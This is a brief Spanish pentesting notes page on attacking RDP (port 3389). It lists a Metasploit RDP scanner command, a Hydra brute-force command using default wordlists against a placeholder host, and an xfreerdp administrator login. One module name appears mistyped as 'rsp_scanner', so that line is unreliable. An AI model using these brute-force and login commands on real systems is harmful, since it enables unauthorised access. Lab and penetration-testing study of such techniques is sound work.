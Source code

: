 # RDP (3389)

Propietario: Adrian Gisbert Cabello

Para saber si está corriendo rdp en un puerto con metasploit:

- `search rdp_scanner`
- `use auxiliary/scanner/rdp/rsp_scanner`

Para hacer un ataque de fuerza bruta con hydra:

- `hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://192.168.X.X -s 3389`

Para entrar mediante rpd:

- `xfreerdp /u:administrator /p:password /v:192.168.X.X:3389`
